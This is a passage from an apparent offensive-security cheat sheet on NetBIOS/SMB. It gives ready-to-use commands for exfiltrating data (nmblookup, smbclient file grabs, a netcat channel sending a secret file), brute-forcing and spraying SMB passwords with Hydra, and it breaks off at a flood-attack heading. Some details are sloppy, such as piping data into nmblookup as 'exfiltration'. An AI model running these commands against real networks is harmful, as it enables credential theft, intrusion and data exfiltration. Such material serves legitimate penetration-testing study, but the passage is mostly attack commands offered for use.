*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "exfil data" | nmblookup -A <target_ip>
    ```
* **Description:** Leveraging NBNS queries to exfiltrate small amounts of data from a compromised network.

#### Exfiltrating Data via NetBIOS Shares

*   **Tool:** \[\[SMBClient]]

    ```bash
    smbclient //<target_ip>/<share_name> -U <username> -c "get sensitive_file.txt"
    ```
* **Description:** Use NetBIOS shares to exfiltrate sensitive data from the target machine.

#### Covert Channels

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 139 < secret_file.txt
    ```
* **Description:** Create a covert channel using NetBIOS Session Service to exfiltrate data discreetly.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 139 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 139 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]
